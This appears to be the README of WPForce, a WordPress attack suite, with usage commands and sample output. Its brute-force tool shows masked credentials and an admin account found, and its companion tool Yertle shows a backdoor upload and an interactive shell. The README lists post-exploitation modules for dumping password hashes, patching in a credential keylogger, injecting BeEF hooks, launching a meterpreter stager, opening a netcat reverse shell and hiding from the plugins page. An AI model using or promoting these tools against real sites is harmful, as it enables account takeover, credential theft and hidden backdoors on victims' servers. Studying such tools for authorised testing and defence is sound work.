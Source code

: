 # WPForce - Wordpress Attack Suite

## ABOUT:
WPForce is a suite of Wordpress Attack tools.  Currently this contains 2 scripts - WPForce, which brute forces logins via the API, and Yertle, which uploads shells once admin credentials have been found.  Yertle also contains a number of post exploitation modules.

For more information, visit the blog post here: 
https://www.n00py.io/2017/03/squeezing-the-juice-out-of-a-compromised-wordpress-server/
## FEATURES:
* Brute Force via API, not login form bypassing some forms of protection
* Can automatically upload an interactive shell
* Can be used to spawn a full featured reverse shell
* Dumps WordPress password hashes
* Can backdoor authentication fuction for plaintext password collection
* Inject BeEF hook into all pages
* Pivot to meterpreter if needed


## INSTALL:
```
Yertle requires the requests libary to run.
http://docs.python-requests.org/en/master/user/install/
```

## USAGE:
```
python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"

   ,-~~-.___.       __        __ ____   _____
  / |  x     \      \ \      / /|  _ \ |  ___|___   _ __  ___  ___
 (  )        0       \ \ /\ / / | |_) || |_  / _ \ | '__|/ __|/ _ \.
  \_/-, ,----'  ____  \ V  V /  |  __/ |  _|| (_) || |  | (__|  __/
     ====      ||   \_ \_/\_/   |_|    |_|   \___/ |_|   \___|\___|
    /  \-'~;   ||     |
   /  __/~| ...||__/|-"   Brute Force Attack Tool for Wordpress
 =(  _____||________|                 ~Mahyarx~

Username List: usr.txt (3)
Password List: pass.txt (21)
URL: http://www[website].com
--------------------------
[xxxxxxxxxxxxx@gmail.com : xxxxxxxxxxxxx] are valid credentials!  - THIS ACCOUNT IS ADMIN
--------------------------
--------------------------
[xxxxxxxxxxxxx@icloud.com : xxxxxxxxxxxx] are valid credentials!
--------------------------
 100% Percent Complete
All correct pairs:
{'xxxxxxxxxxxxx@icloud.com': 'xxxxxxxxxxxxx', 'xxxxxxxxxxxxx@gmail.com': 'xxxxxxxxxxxxx'}

 -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file name
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist file name
  -u URL, --url URL     URL of target
  -v, --verbose         Verbose output. Show the attemps as they happen.
  -t THREADS, --threads THREADS
                        Determines the number of threads to be used, default
                        is 10
  -a AGENT, --agent AGENT
                        Determines the user-agent
  -d, --debug           This option is used for determining issues with the
                        script.


python yertle.py -u "[username]" -p "[password]" -t "http://www.[website].com" -i
     _..---.--.    __   __        _   _
   .'\ __|/O.__)   \ \ / /__ _ __| |_| | ___
  /__.' _/ .-'_\    \ V / _ \ '__| __| |/ _ \.
 (____.'.-_\____)    | |  __/ |  | |_| |  __/
  (_/ _)__(_ \_)\_   |_|\___|_|   \__|_|\___|
   (_..)--(.._)'--'         ~Mahyarx~
      Post-exploitation Module for Wordpress

Backdoor uploaded!
Upload Directory: ebwhbas
os-shell>



  -h, --help            show this help message and exit
  -i, --interactive     Interactive command shell
  -r, --reverse         Reverse Shell
  -t TARGET, --target TARGET
                        URL of target
  -u USERNAME, --username USERNAME
                        Admin username
  -p PASSWORD, --password PASSWORD
                        Admin password
  -li IP, --ip IP       Listener IP
  -lp PORT, --port PORT
                        Listener Port
  -v, --verbose         Verbose output.
  -e EXISTING, --existing EXISTING
                        Skips uploading a shell, and connects to existing
                        shell


```

Yertle currently contains these modules:

```
Core Commands
=============
 
Command                   Description
-------                   -----------
?                         Help menu
beef                      Injects a BeEF hook into website
exit                      Terminate the session
hashdump                  Dumps all WordPress password hashes
help                      Help menu
keylogger                 Patches WordPress core to log plaintext credentials
keylog                    Displays keylog file
meterpreter               Executes a PHP meterpreter stager to connect to metasploit
quit                      Terminate the session
shell                     Sends a TCP reverse shell to a netcat listener
stealth                   Hides Yertle from the plugins page
```
